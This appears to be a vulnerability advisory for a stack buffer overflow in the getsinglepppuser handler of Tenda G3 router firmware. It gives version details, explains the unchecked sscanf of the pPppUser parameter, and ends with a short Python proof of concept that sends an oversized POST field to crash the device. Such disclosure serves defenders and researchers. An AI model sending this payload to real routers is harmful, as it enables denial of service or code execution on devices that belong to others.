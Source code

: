 # Tenda G3 getsinglepppuser
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the getsinglepppuser function.
### Vulnerability details
Stack-based buffer overflow in function getsinglepppuser on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function getsinglepppuser line 12, it reads in a user-provided parameter, and the variable pPppUser is passed to the sscanf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/getsinglepppuser-1.png)
![](images/getsinglepppuser-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/getsinglepppuser'
payload = {
    "pPppUser": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
